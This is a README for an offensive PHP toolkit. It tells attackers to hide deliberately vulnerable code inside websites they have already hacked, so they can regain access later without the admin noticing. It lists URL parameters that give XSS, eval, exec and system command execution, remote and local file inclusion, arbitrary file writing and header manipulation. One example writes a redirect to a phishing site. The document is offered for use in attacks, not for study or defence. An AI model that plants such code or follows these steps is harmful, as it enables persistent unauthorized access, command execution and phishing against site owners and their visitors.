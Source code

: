 <div align="center">

# PHP Vulnerable code 

[![Coded By](https://img.shields.io/badge/Coded%20By-Zech%20Bron-red?style=for-the-badge&logo=github)](https://github.com/ZechBron)


</div>

### Description:

This is a Vulnerable PHP Codes to put inside a file (but do not modify that file to avoid the admin discovering what you've done) for future attack.
Note that the only purpose of this code is to insert this shit in a file to make the site vulnerable for your future attack.

Note that this is not a shell or backdoor. This is just a vulnerable php codes that you can insert to the site you have hacked to make the sites vulnerable for future attack.

__Disadvatage__

Other hackers might find and exploit this but if you want though you can put this vulnerable code in a seperate file and just put a password so only you can access this.


### Queries and Parameters

+ XSS

   .php?xzz=//your xss parameter here

+ Eval

   .php?zeval=//command here

+ Exec

   .php?zexec=//command here

+ System

   .php?zsys=//command here

   `Note: You don't have to type system() here. Just type the commands and that's all. For Example: .php?zsys=uname%20-a

+ File Inclusions

   .php?zfile=//remote or local file here

+ Create and Write a File

   .php?zfilename=filename-of-your-choice&&zcontent=file-content

   ```
   Example:
   I want to write a php file in a site but that site has no shell yet.
   The filename I want is redir.php and the content I want is this: <?php header("LOcation: " . "https://my-phishing-sites.com");

   So I will put these in the address bar:

   .php?zfilename=redir.php&&zcontent=<?php header("Location: " . "https://my-phishing-site.com");


   Everything depends on you.

+ Header Hacking and Manipulating

   .php?zheader=//Your Header Content Here
